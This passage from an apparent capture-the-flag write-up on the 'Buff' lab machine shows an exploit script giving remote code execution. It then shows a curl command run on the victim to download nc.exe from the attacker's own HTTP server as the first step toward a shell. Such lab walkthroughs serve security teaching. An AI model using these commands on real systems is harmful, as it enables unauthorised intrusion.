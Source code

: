 So we have to pass the <WEBAPP_URL> to the exploit to work. So let's do it

`python exploit.py 'http://10.10.10.198/8080/'`

Andddd.... Bingo!! We got a RCE in the machine

![image](https://raw.githubusercontent.com/0xZuk0/matrix/master/assets/Buff/postexp.png)

We can see that we are user `buff\shaun`. Now lets move ahead..

## **Getting Proper Shell**

So now after getting a RCE we have to get a shell. There are many ways to get a shell if you have RCE in a machine. This is one of the method. So let's start with uploading a [`nc.exe`](https://eternallybored.org/misc/netcat/) in the machine.

1. Host a python server in which nc.exe is present

    `python3 -m http.server`

2. Now execute the following command after we have RCE.

    `cmd.exe /c curl http://<your tun0 IP address>:8000/nc.exe -o nc.exe`

```
 cmd.exe : we are executing command prompt in the machine
 /c      : this options will run the following command in the cmd.exe
 curl    : Command line tool to transfer data
 -o      : output filename  
```
